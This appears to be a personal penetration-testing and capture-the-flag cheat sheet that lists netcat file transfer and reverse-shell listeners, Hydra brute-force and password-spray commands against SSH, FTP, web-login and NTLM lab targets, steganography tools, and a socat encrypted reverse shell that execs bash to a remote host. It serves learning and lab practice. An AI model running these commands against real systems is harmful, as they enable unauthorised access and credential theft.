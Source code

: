 <h3 class="border-bottom mb-3 mt-5" id="nc">nc</h3>

A way I like to use to transport files between machines

```
nc -l -p 1234 > out.file
nc -w 3 10.10.10.10 1234 < in.file
```

<h3 class="border-bottom mb-3 mt-5" id="listeners">listeners</h3>

A listener for your reverse shell to connect to. I almost exclusively use nc for this.

```
nc -lvnp 4444
rlwrap nc -lvnp 4444
```

<h3 class="border-bottom mb-3 mt-5" id="hydra">Hydra</h3>

Don't really like this tool. But it can do so much that in most scenario's I end up using it for something and sometimes it leads to results.

```
hydra -l username -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -t 4 ssh://10.10.136.152 -VV
hydra -l user -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -t 16 ssh://10.10.38.109 -VV
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.249.252 ftp
hydra -l username -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt 10.10.4.137 -V http-form-post '/login:username=^USER^&password=^PASS^:F=failed' -o hydra_results.txt
hydra -L .usernames.txt -p "passwordtospray" ntlmauth.za.tryhackme.com http-get '/:A=NTLM:F=401'    # ntlm passwordspray
```


<h3 class="border-bottom mb-3 mt-5" id="image-analysis">image analysis</h3>

I feel like this is exclusively useful for CTF's I cannot imagine that this is useful in real scenario's. But more often than not stuff is hidden inside images or binaries, and these tools almost always lead to an answer. It does teach you a bit about binaries, file formats in general, meta data, so I understand why it is used so much in CTF's.

```
exiftool
steghide
stegbrute
binwalk
dd if=image.jpg of=hidden.zip bs=1 skip=265845
```


<h3 class="border-bottom mb-3 mt-5" id="socat">socat</h3>

```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0             # listener
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane  # reverse shell
./socat tcp-l:2222,fork,reuseaddr tcp:10.10.10.10:22 &  # start listener on 2222 forward to 10.10.10.10:22
```
